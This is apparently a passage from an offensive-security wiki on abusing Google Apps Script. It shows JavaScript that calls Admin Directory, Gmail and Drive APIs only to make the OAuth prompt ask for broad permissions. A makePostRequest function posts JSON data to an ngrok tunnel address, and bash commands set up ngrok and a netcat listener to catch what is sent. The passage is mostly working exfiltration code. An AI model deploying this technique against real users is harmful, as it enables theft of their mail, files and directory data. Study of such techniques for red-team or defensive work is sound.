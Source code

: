 ```javascript
  // Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions
  
  // To ask for AdminDirectory permissions
  var pageToken = "";
  page = AdminDirectory.Users.list({
    domain: domain,  // Use the extracted domain
    orderBy: 'givenName',
    maxResults: 100,
    pageToken: pageToken
  });

  // To ask for gmail permissions
  var threads = GmailApp.getInboxThreads(0, 10);

  // To ask for drive permissions
  var files = DriveApp.getFiles();
}


function makePostRequest(data) {
  var url = 'http://5.tcp.eu.ngrok.io:12027';
  
  var options = {
    'method' : 'post',
    'contentType': 'application/json',
    'payload' : JSON.stringify(data)
  };
  
  try {
    UrlFetchApp.fetch(url, options);
  } catch (e) {
    Logger.log("Error making POST request: " + e.toString());
  }
}
```
{% endcode %}

To capture the request you can just run:

```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```

Permissions requested to execute the App Script:

<figure><img src="../../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
As an external request is made the OAuth prompt will also **ask to permission to reach external endpoints**.
{% endhint %}
